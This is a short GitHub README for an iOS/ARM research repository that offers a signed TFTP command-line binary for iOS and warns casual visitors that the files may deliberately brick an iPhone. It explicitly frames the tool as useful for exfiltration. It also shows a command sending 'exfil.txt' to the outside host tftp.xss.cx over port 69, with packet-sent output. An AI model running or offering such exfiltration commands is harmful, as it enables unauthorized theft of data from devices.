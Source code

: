 ### All the action is at https://github.com/xsscx/srd

# ios-arm-research
iOS, ARM, Research

Note to those coming to this Repo in a Blind manner.. you really don't want to be downloading anything here, it'll probably brick you iphone, on purpose.
To those who land here Blind, be so careful what you download from the Internet.. these files are for troubleshoot technical support issue and have a very specific context.

To the people that I sent here, you're in the right place. Keep going.. this is th right place to be... :-)

Updated Jan 25 2021

The file named 'client' is a Binary ARM file for TFTP Command Line on iOS and its signed with my Developer ID for convenience for iOS Research

usage: ./client [-p port] [-h hostname] -f filename

Reminder: Its a TFTP CLI Executable, so you need a TFTP Server and a few other things to make it all work..

Comment: the compiled file may be really helpful since you may want to exfil via port 69.

The files in this Repo.. starting point for why you came.. refer back to that Post for the Makefile mods ... the Makefile here is for Intel Platform.. so you need to read that Post on cross compilation for client .... OR just copy the client binary..its iOS ready to run. 


Putting it all together.. 
you'll be ssh into /dev/thingy

./client -h tftp.xss.cx -p 69 -f exfil.txt

...
...
Packet '143966' sent
Packet '143967' sent
Packet '143968' sent
Packet '143969' sent
FIN '143970' sent
Goodbye




